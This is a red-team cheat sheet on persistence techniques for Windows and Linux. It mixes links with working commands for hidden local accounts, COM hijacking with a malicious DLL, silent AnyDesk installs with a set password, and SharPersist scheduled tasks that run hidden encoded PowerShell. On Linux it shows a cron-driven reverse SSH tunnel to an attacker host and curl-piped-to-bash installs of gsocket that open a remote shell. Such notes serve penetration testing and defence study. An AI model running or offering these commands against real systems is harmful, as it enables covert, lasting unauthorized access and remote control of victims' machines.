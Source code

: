 # Persistence

* [https://xakep.ru/2021/03/03/persistence-cheatsheet/](https://xakep.ru/2021/03/03/persistence-cheatsheet/)




## Windows

- [https://persistence-info.github.io/](https://persistence-info.github.io/)



### Scheduled Tasks

- [https://github.com/VirtualAlllocEx/Taskschedule-Persistence-Download-Cradles](https://github.com/VirtualAlllocEx/Taskschedule-Persistence-Download-Cradles)



### Hidden Local User

- [https://github.com/3gstudent/Windows-User-Clone](https://github.com/3gstudent/Windows-User-Clone)
- [https://github.com/wgpsec/CreateHiddenAccount](https://github.com/wgpsec/CreateHiddenAccount)


#### Dollar Sign

* [https://chaah.awankloud.my/redteaming-tips-creating-a-hidden-user/](https://chaah.awankloud.my/redteaming-tips-creating-a-hidden-user/)

```
Cmd > net user snovvcrash$ Passw0rd! /add
```


#### SpecialAccounts

```
PS > New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name SpecialAccounts
PS > New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\" -Name snovvcrash -PropertyType DWord -Value 0 -Force
```


#### Suborner

- [https://r4wsec.com/notes/the_suborner_attack/](https://r4wsec.com/notes/the_suborner_attack/)
- [https://github.com/r4wd3r/Suborner](https://github.com/r4wd3r/Suborner)

```
PS > whoami
nt authority\system
PS > .\Suborner.exe /username:snovvcrash$ /password:Passw0rd!
```



### COM Hijacking

Locate good targets to hijack with Procmon filters:

- *Operation* is **RegOpenKey**
- *Result* is **NAME NOT FOUND**
- *Path* is **InprocServer32** (in-process server allowing the specified DLL to be loaded into current process memory space)

Locate CLSIDs from scheduled tasks:

{% code title="schtask.ps1" %}
```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
{% endcode %}

Check if a COM component exists under a relevant registry hive by its CLSID:

```
PS > Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
PS > Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize
PS > Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize
```

If it exists under `HKLM` but does **not** exists under `HKCU` hive, we can hijack this COM component by creating a new item in the latter path:

```
PS > New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
PS > New-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -Name "InprocServer32" -Value "C:\Windows\Tasks\evil.dll"
PS > New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}\InprocServer32" -Name "ThreadingModel" -Value "Both"
PS > Get-ItemProperty -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}\InprocServer32"
```



### RID Hijacking

- [https://r4wsecurity.blogspot.com/2017/12/rid-hijacking-maintaining-access-on.html](https://r4wsecurity.blogspot.com/2017/12/rid-hijacking-maintaining-access-on.html)
- [https://github.com/r4wd3r/RID-Hijacking](https://github.com/r4wd3r/RID-Hijacking)



### .LNK Shortcuts

- [https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence)



### AnyDesk

- [https://support.anydesk.com/knowledge/use-cases-for-the-command-line-interface](https://support.anydesk.com/knowledge/use-cases-for-the-command-line-interface)
- [https://support.anydesk.com/knowledge/command-line-interface-for-windows](https://support.anydesk.com/knowledge/command-line-interface-for-windows)

```
Cmd > bitsadmin /transfer job1 https://download.anydesk.com/AnyDesk-CM.exe C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe
Cmd > C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe --install C:\Users\snovvcrash\AppData\Local\AnyDesk --start-with-win --silent
Cmd > del C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe
Cmd > echo Passw0rd! | C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --set-password
Cmd > cmd /c "for /f ""delims="" %i in ('C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --get-id') do echo %i"
Cmd > C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --remove
```



### Tools


#### SharPersist

- [https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist)

```
beacon> execute-assembly SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <BASE64_CMD>" -n "Updater" -m add -o hourly
beacon> execute-assembly SharPersist.exe -t startupfolder -f "UserEnvSetup" -m add
beacon> execute-assembly SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```




## Linux



### SSH Tunnel in Crontab

{% code title="callback.sh" %}
```bash
#!/bin/bash
if [[ `ps -ef | grep -c 2222` -eq 1 ]]; then
  /usr/bin/ssh -nNT -R 2222:localhost:22 -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null -i /home/alice/.ssh/.k nopty@10.10.13.37
fi
```
{% endcode %}

Attacker's box:

```
$ sudo useradd -ms /bin/false nopty
$ sudo ssh-keygen -f /home/nopty/.ssh/dummy_key -t ed25519 -q -N ""
$ cat /home/nopty/.ssh/dummy_key.pub
$ sudo vi /home/nopty/.ssh/authorized_keys
from="10.10.13.38",command="echo 'Only port forwarding is allowed'",no-agent-forwarding,no-X11-forwarding,no-pty <DUMMY_KEY_PUB>
```

Victim's box:

```
$ curl 10.10.13.37/dummy_key > /home/alice/.ssh/.k
$ chmod 600 /home/alice/.ssh/.k
$ curl 10.10.13.37/callback.sh > /home/alice/.conf
$ chmod +x /home/alice/.conf
$ crontab -e
*/15 * * * * /home/alice/.conf
```



### Global Socket

* [https://www.gsocket.io/deploy/](https://www.gsocket.io/deploy/)


#### Install

Victim's box:

```
$ bash -c "$(curl -fsSL gsocket.io/x)"
$ bash -c "$(wget -qO- gsocket.io/x)"
```


#### Connect

Attacker's box:

```
$ cd ~/tools && bash -c "$(curl -fsSL https://tiny.cc/gsinst)" && cd
$ ~/tools/gsocket/tools/gs-netcat -s "<SECRET>" -i
```


#### Cleanup

Victim's box:

```
$ GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
$ GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"

$ pkill gs-bd
```



### Rootkits

* [0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485)
